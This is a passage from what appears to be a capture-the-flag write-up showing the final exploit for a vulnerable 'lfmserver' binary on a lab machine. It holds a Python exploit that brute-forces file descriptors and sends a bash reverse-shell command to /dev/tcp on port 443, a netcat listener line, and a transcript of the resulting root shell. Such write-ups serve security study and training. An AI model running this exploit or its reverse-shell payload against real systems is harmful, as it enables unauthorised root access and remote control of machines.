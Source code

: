 #### Final exploit
```python
def exploit():
    try:
        for fd in range(3, 10):
            if leak(fd):
                log.success("Found fd: %d" % fd)
                shell = sendPayload(fd)
                clear(2)
                if args.REV:
                    ip = get_ip_address("tun0")
                    log.info("Setup your listener! [nc -lvnp 443]")
                    while True:
                        done = input("Send payload? [Y/n] ").rstrip()
                        if done in ["Y","y",""]:
                            clear()
                            shell.sendline("bash -c 'bash -i >& /dev/tcp/{IP}/443 0>&1'".format(IP=ip))
                            log.success("Reverse-shell payload send!")
                            shell.close()
                            clear()
                            break
                        clear()
                    return True
                else:
                    shell.sendline("id")
                    shell.interactive()
                    return True
    except Exception as ex:
        log.warning(ex)
        return False
```
All fds from 3 to 10 are brute forced. If the `fd` is found, the final payload is send using `sendPayload`, which either gets us a shell or a `reverse-shell`, depending on user-input.

### Getting shell as root
```python
root@silence:~# python3 exploit3.py
[*] '/root/lfmserver'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Leaked libc-base: 0x7f6f4454f000
[+] Found fd: 6
[*] Switching to interactive mode
LFM 200 OK
Size: 32

26ab0db90d72e28ad0ba1e22ee510510
uid=0(root) gid=0(root) groups=0(root)
$ hostname
patents
$ whoami
root
```
The shell proved to be quite instable, so I added a functionality to quickly get a reverse-shell.
```python
root@silence:~# python3 exploit3.py REV
[*] '/root/lfmserver'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
```